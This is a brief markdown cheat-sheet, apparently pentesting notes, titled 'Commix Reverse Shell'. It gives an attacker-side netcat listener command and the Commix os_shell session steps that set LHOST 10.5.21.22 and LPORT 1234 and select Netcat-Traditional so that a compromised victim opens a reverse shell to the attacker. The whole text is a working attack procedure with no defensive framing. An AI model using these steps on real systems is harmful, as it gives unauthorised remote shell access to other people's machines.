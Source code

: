 Commix Reverse Shell
====================
On Attacker
-------------
````bash
nc -lvp 1234
````

On Victim
------------
```bash
commix(os_shell)
reverse_tcp
set LHOST 10.5.21.22
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
